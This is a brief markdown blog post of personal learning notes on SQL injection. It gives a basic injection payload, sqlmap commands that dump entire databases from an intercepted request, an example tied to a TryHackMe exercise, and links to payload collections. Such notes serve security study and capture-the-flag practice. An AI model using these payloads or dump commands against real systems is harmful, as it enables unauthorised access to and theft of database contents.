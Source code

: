 ```yaml
---
layout: post 
author: Edwards
date: 2020-11-15 
title: SQL 
math: true
---
```



## Basic SQL Injection
```bash
' or 1=1 -- -
```

## Use sqlmap to dump a database
_sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers._

```bash
sqlmap -r <text.txt> --dbms=mysql --dump
```

- -r use a request intercept with BurpSuite (search request per exemple) 
- -dmbs tells SQLMap what type of database management system it is
- -dump attempts to outputs the entire database

## Example of sqlmap used in Advents of cybersecurity TryHackMe with a burpsuite file.
```bash
sqlmap -r event.request --tamper=space2comment --dump-all -dbms sqlite --answers="follow=Y" --batch
```

## cheat sheet SQL
[!swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)


[!payload_list](https://github.com/payloadbox/sql-injection-payload-list)


[!SQL_injection](https://tryhackme.com/room/sqlibasics)